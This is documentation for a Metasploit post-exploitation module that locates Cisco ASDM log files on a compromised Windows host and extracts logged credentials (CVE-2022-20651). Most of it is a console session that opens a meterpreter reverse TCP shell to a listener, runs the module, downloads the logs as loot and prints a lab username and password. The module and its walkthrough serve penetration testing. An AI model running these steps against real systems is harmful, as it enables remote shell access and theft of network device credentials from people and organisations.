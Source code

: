 ## Vulnerable Application

This module uses the PackRat post-exploitation library to find Cisco ASDM log files on
Windows and then parse the files for logged credentials. In some situations, saved usernames
are logged initentionally, but ASDM also logged passwords in some situations
for ASDM 7.17.1 and below (see CVE-2022-20651).

### Setup

## Verification Steps

1. Obtain a privileged meterpreter shell on Windows
2. `background`
3. Run: `use post/windows/gather/credentials/cisco_asdm_logfile`
4. `set SESSION 1`
5. Run the module
6. On success, files will be downloaded and creds will be extracted if they exist.

## Options

## Scenarios

### Capturing credentials (root:labpass1) and username (albinolobster)

```
[*] Starting persistent handler(s)...
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
PAYLOAD => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.9.49.248
LHOST => 10.9.49.248
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.49.248:4444 
[*] Meterpreter session 1 opened (10.9.49.248:4444 -> 10.9.49.249:62081) at 2022-06-27 09:49:47 -0700

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/credentials/cisco_asdm_logfile
msf6 post(windows/gather/credentials/cisco_asdm_logfile) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/credentials/cisco_asdm_logfile) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Asdm's Asdm-idm-log-*.txt file found
[*] Downloading C:\Users\albinolobster\.asdm\log\asdm-idm-log-2022-06-24-15-30-15.txt
[*] Asdm Asdm-idm-log-2022-06-24-15-30-15.txt downloaded
[+] File saved to:  /home/albinolobster/.msf4/loot/20220627095015_default_10.9.49.249_asdmasdmidmlog_426793.txt

[+] File with data saved:  /home/albinolobster/.msf4/loot/20220627095015_default_10.9.49.249_EXTRACTIONasdmi_452698.txt
[*] Downloading C:\Users\albinolobster\.asdm\log\asdm-idm-log-2022-06-24-15-30-41.txt
[*] Asdm Asdm-idm-log-2022-06-24-15-30-41.txt downloaded
[+] File saved to:  /home/albinolobster/.msf4/loot/20220627095015_default_10.9.49.249_asdmasdmidmlog_825293.txt

[+] Loggedinusername:albinolobster

[+] File with data saved:  /home/albinolobster/.msf4/loot/20220627095019_default_10.9.49.249_EXTRACTIONasdmi_751021.txt
[*] Downloading C:\Users\albinolobster\.asdm\log\asdm-idm-log-2022-06-24-16-53-34.txt
[*] Asdm Asdm-idm-log-2022-06-24-16-53-34.txt downloaded
[+] File saved to:  /home/albinolobster/.msf4/loot/20220627095019_default_10.9.49.249_asdmasdmidmlog_070366.txt

[+] password="labpass1"
[+] username="root"
[+] File with data saved:  /home/albinolobster/.msf4/loot/20220627095019_default_10.9.49.249_EXTRACTIONasdmi_989553.txt
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
